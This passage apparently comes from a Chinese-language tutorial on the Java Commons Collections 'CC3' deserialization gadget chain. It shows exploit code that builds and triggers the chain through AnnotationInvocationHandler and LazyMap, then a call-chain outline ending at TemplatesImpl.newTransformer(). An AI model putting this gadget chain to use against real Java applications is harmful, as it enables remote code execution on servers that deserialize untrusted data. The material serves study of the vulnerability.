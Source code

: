 ```java
        Map map1 = LazyMap.decorate(map, chainedTransformer);

        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = c.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(Target.class, map1);
        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, handler);
        handler = (InvocationHandler) constructor.newInstance(Target.class, proxyMap);

        try {
            // 序列化
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(handler);
            objectOutputStream.close();

            // 反序列化
            ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
            ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
        try {
            CC3();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

![undefined](https://p4.ssl.qhimg.com/t014961a6ccb92d7887.png "undefined")

## 调用链

```java
AnnotationInvocationHandler.readObject()
   Map(Proxy).entrySet()
        AnnotationInvocationHandler.invoke()
            LazyMap.get()
                ChainedTransformer.transform()
                    ConstantTransformer.transform()
                        InstantiateTransformer.transform()
                            TemplatesImpl.newTransformer()
```
